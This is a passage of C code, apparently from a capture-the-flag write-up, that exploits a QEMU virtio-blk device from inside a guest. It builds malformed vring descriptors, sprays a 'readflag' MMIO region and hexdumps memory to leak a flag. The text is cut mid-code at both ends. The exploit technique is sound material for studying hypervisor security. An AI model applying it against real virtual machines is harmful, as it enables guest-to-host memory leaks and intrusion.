 ```c
    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    printf("[+] virtio-blk init done!\n");
}

#define mfence() {__asm__ volatile("mfence":::"memory");}
void init_vring() {
    QVirtioBlkReq *req = (QVirtioBlkReq *)dma_data;
    req->type = 0xff; // invalid type
    req->ioprio = 1;
    req->sector = 0;

    queue_desc[0].addr = (uint64_t)req;
    queue_desc[0].len = 0x10;
    queue_desc[0].flags = VRING_DESC_F_NEXT;
    queue_desc[0].next = 1;

    queue_desc[1].addr = VIRTIO_BLK_GPA;
    queue_desc[1].len = 0xfff;
    queue_desc[1].flags = VRING_DESC_F_NEXT|VRING_DESC_F_WRITE;
    queue_desc[1].next = 2;

    queue_desc[2].addr = (uint64_t)dma_data + 0x1000;
    queue_desc[2].len = 1;
    queue_desc[2].flags = VRING_DESC_F_WRITE;
    queue_desc[2].next = 0;

    queue_avail->ring[0] = 0;
    queue_avail->idx = 1;
    queue_avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    mfence();
}

void spray() {
    for (size_t i = 0xffc; i > 0x20; i-=4)
        mmio_write32(readflag_mmio, i);
}

void hexdump(void *addr, size_t size){
    // dump 4 bytes per time
    for (size_t i = 0; i < size; i+=4) {
        uint32_t val = *(volatile uint32_t*)(addr+i);
        for (int j = 0; j < 4; j++) {
            uint8_t chr = (val >> (j*8)) & 0xff;
            if (chr >= 0x20 && chr <= 0x7e) {
                putchar(chr);
            } else {
                putchar('?');
            }
        }
    }
}

int main() {
    init_virtio();
    init_vring();

    readflag_mmio = mmio_init((void *)READFLAG_GVA, 0x1000, "/sys/devices/pci0000:00/0000:00:05.0/resource0");
    printf("[*] readflag_mmio: %p\n", readflag_mmio);

```